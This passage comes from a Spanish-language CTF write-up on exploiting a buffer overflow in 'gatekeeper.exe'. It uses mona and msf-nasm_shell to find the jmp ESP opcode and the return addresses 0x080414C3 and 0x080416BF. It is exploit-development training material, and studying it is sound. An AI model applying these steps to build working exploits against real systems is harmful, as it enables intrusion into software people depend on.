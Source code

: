 Para el segundo caso necesitamos ver los módulos, en mona podemos listarlos de la siguiente manera

```php
!mona modules
```

![20240221024112.png](20240221024112.png)

Ahora para obtener un OpCode equivalente a `jmp ESP` haremos uso de `msf-nasm_shell` y para luego buscar las direcciones que anteriormente vimos con el otro método pero haciendo uso de un OpCode

```php
❯ msf-nasm_shell
nasm > jmp ESP
```

![20240221024417.png](20240221024417.png)

Tenemos el OpCode el cual usaremos con el modulo `gatekeeper.exe`   que anteriormente se había listado

```php
!mona find -s "\xff\xe4" -m gatekeeper.exe
```

![20240221024224.png](20240221024224.png)

La dirección que nos muestra es igual al anterior método:

```php
0x080414C3
0x080416BF
```

Para verificar que la dirección que hace un salto al `jmp ESP` podemos hacer una búsqueda con la dirección obtenida
